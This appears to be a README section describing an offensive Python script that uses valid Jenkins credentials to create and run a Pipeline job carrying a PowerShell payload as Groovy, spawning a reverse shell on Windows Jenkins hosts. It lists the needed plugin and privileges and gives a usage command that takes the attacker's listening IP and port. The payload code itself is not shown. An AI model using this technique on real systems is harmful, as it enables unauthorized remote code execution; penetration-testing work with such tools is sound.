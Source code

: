 ## win_revshell_groovy.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
And Jenkins must have the "[workflow-cps](https://plugins.jenkins.io/workflow-cps/)" or "Pipeline: Groovy" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Pipeline"** JOB.

![win_revshell_groovy_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_1.png)

Then configures it or BUILD a **"Pipeline script"** with the **Powershell** payload as **Groovy** code.
![win_revshell_groovy_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:\
python3 ./win_revshell_groovy.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_groovy_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_3.png)
![win_revshell_groovy_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
